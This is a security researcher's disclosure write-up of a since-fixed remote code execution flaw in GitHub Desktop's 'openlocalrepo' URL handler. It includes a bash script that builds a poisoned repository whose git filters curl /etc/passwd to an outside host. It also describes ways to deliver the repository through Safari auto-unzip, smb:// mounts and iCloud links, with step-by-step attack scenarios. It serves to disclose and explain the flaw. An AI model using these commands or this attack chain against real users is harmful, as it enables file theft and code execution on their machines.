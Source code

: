 # RCE in [GitHub Desktop](https://github.com/desktop/desktop) < 2.9.4

![](github_desktop_openlocalrepo_safari.gif)

**[High-res Safari PoC screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**


- [RCE in GitHub Desktop < 2.9.4](#rce-in-github-desktop-294)
- [Intro](#intro)
- [Summary](#summary)
- [Details (< v2.9.4)](#details--v294)
  - ["openlocalrepo" URL command](#openlocalrepo-url-command)
  - [Crafting a "poisoned" git repository](#crafting-a-poisoned-git-repository)
  - [Achieving code execution](#achieving-code-execution)
  - [Delivering a malicious repository to user device](#delivering-a-malicious-repository-to-user-device)
  - [Attack scenarios](#attack-scenarios)
- [Impact & fix](#impact--fix)

# Intro

It's obvious why `git` was [selected by Google](news/google-commits-to-solving-security-problems-in-open-source-projects-like-git-and-laravel/) for a security audit as a top-priority open-source project git.

`git` is a dumb version tracker used by every software engineer for collaboration.

`git`'s destiny is to make collaboration efficient for developer. Therefore, `git` needs to have different functionalities that allow to invoke local programs for remote communication, like diff and formatting.

On top of this, git is a basic primitive for deploying, scaling and managing source code and releases. Things like git-lfs make git accessible to a more broad scope of potential users.

# Summary

`openlocalrepo` [URI command](https://github.com/desktop/desktop/blob/18238077aa1e4851e710cfa66587cd4fd597bacd/app/src/cli/commands/open.ts#L35) in GitHub Desktop < 2.9.4 allows importing a crafted repository with malicious payload in `/.git/config` on the targeted machine leading to code execution.

# Details (< v2.9.4)

## "openlocalrepo" URL command

Unlike `openrepo` URI command, `openlocalrepo` doesn't ask the user for a confirmation to import a repository from local FS.
`github-mac://openlocalrepo/<path_to_local_repo>` command immediately imports the specified local repository into GitHub Desktop app.

## Crafting a "poisoned" git repository

If repository won't be downloaded via `git clone`, then attacker can supply its own repository configuration in `.git/config`

```bash
mkdir -p /tmp/evil
cd /tmp/evil
git init
cat > ./.git/config<<- EOM
[filter "any"]
    smudge = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/smudge
    clean = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/clean
EOM
touch example
git add ./example
git commit -m 'commit'
echo "*  text  filter=any" > .gitattributes
```

> Make sure to replace the test payload
> To confirm the config is poisoned run `git status` inside the repo

This repo has [git filters](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) that GitHub Desktop will execute as soon as the repo is imported.
When Desktop imports the repo it'll run `any` filter for `.gitattributes` file, because this file hasn't been committed yet.

## Achieving code execution

At this point, we know the following things:

- importing a local repo with URL handler doesn't require user confirmation (except for running the URL command in the browser).
- importing a local repo may lead to code execution

That means, **running a URL command can lead to malicious code execution** on user device.

## Delivering a malicious repository to user device

This is a pretty annoying task and it depends on what we already know about the target, specifically:

**Q:** What's the OS/browser/username on the targeted device?

> it's possible to discover OS/browser from User-Agent
> it's possible to discover username by previously opening a `ssh://` link in the browser (if user confirms, a SSH session will be started with the current username).
> There are other esoteric methods like stealing the username by sending an HTML file to the target (and disclosing the full path to attacker using JS later).

**Safari: `"Open 'safe' files"` isn't that safe**

**By default**, Safari has **"Open 'safe' files after downloading"** option enabled.
Thus, running `location.href = "./payload.zip"` makes Safari unzipping the archive to `~/Downloads/evil` **without any user interaction**.

**Delivering malicious files with `smb://`**

If it's macOS or Win, we can drop the folder with `location.href="smb://publicshare"`
In macOS, this requires not more than a single click from the target.

**Esoteric methods: Keybase, Google Drive, etc.**

I described some alternative payload delivery methods (Keybase, GDrive, iCloud, etc) in [this blogpost about `.terminal` files](https://medium.com/@metnew/exploiting-popular-macos-apps-with-a-single-terminal-file-f6c2efdfedaa).

**Delivering the payload w icloud links (macOS 10.15)**

URLs like `icloud-sharing://www.icloud.com/iclouddrive/0sW3_56zbqY0Exxxxxxxxxxxx#evil` on macOS 10.15 automatically download folders from the web to user's local iCloud files.

**Delivery summary**

**Hypothesis**: delivering a malicious folder to the device doesn't require more than 1 click from the target.

> Because `smb://` strategy allows doing this on both macOS and Win in no more than 1 click and **doesn't have any specific requirements** (e.g., OS username, OS settings, etc).

> **NOTE:** I don't have a Win machine. But from what I remember, Win could mount public shares without triggering a dialog at all. This hypothesis requires a confirmation though.

## Attack scenarios

**Safari attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**

1. User visits the attacker's website
2. The website downloads a malicious archive. The archive with the malicious repo is extracted to `/Users/user/Downloads/archive`
3. The website runs `location.href = 'github-mac://openlocalrepo//Users/user/Downloads/archive'`.
4. pwn.

**smb:// attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QNDr_qzO-KpKMbKEbZ5YW0IhxBHLuJ_e/view?usp=sharing)**

> PoC took a bit long, but it's possible to fine tune the smb server to skip that pause I had in the screencast

1. User visits the attacker's website
2. The website opens `location.href = "smb://guest:guest@publicshare"`. (user confirms)
3. The archive with the malicious repo is mounted to `/Volumes/share/evil`
4. The website runs `location.href = 'github-mac://openlocalrepo//Volumes/share/evil'`.
5. pwn.

# Impact & fix

Attacker can run arbitrary code on the targeted device using Github Desktop protocol handler.

As of version 2.9.4, GitHub Desktop asks for a confirmation when opening a local repository :)

See [this PR](https://github.com/desktop/desktop/pull/12935).

**Timeline**

- Aug 29 2021 - initial report
- Sep 9 2021 - the vulnerability is confirmed
- Sep 10 2021 - pull request with [fix](https://github.com/desktop/desktop/pull/12935) is available.
- Sep 10 2021 - GitHub awarded $2K bounty.

**Bounty concerns**

I had a slight feeling the bounty is too small. Because previously similar bugs in GitHub Desktop were awarded with $5K and $10K bounties. GitHub declares they pay bounties only for Critical issues and this one requires conditions to exploit, so I'm kinda ok with this. Maybe I was just too much excited about my finding :)

**Further research**

In the next write-up I'm going to share how I made over $50K+ on some git bugs and features. Stay tuned :)
